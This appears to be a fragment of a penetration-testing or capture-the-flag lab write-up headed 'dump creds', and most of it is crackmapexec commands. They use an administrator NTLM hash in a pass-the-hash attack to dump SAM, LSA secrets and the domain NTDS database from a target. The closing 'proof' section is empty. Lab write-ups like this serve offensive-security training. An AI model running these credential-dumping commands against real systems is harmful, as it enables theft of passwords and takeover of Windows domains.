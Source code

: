

dump creds.

```bash
# only local hash, dump with administrator hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --sam

# got cleartext password, dump from lsass.exe
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --lsa

# got dc user hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds

# wrong argument.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds-history
```



## proof

```bash


```



